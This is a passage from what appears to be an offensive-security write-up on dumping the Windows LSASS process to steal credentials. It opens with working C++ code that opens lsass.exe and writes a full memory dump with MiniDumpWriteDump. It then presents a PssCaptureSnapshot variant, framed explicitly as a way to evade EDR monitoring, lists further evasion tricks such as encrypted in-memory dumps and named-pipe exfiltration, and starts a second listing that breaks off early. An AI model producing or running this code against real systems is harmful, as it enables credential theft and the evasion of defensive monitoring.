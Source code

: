 ```cpp
	DWORD pid = GetLsassPID();
    if (pid == 0) {
        std::cerr << "[-] Could not find lsass.exe\n";
        return 1;
    }
    
    HANDLE hProcess = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, pid);
    if (!hProcess) {
        std::cerr << "[-] Failed to open LSASS process.\n";
        return 1;
    }
    HANDLE hFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (!hFile) {
        std::cerr << "[-] Failed to create dump file.\n";
        return 1;
    }
    BOOL success = MiniDumpWriteDump(hProcess, pid, hFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
    if (success) {
        std::cout << "[+] Dump written to lsass.dmp\n";
    } else {
        std::cerr << "[-] Dump failed.\n";
    }

    CloseHandle(hFile);
    CloseHandle(hProcess);
    return 0;
}
```

#### Method2: LSASS Dumping via `PssCaptureSnapshot` and `MiniDumpWriteDump`
##### About
This is a way of evading the protections and monitoring EDRs implement to monitor the LSASS process. 
`PssCaptureSnapshot` is a Windows API function introduced in `Windows 8.1` and `Server 2012 R2`. It allows us to clone a target process instead of dumping its memory directly and right after cloning it we can dump its memory independently of the original process. 
**This technique might not be flagged by EDRs especially when the dump is written in a stealthy manner.**
##### Code
Here is how the technique works:
- `PssCaptureSnapshot` creates a read-only clone of the LSASS process containing all virtual memory pages without interfering with the original process.
- This is a way of avoiding traditional API patterns which are commonly detected and flagged.
- `MiniDumpWriteDump` can still be monitored by EDRs so there exist many techniques to avoid this monitoring:
	- Dumping to memory buffer and encrypting.
	- Named pipe exfiltration.
	- Using direct syscalls or indirect syscall wrappers for `MiniDumpWriteDump`.
```cpp
#include <windows.h>
#include <tlhelp32.h>
#include <iostream>
#include <processsnapshot.h>
#include <DbgHelp.h>

#pragma comment(lib, "dbghelp.lib")
#pragma comment(lib, "kernel32.lib")

// Enables SE_DEBUG_NAME privilege in the current process token
bool EnablePrivilege(LPCWSTR privName) {
```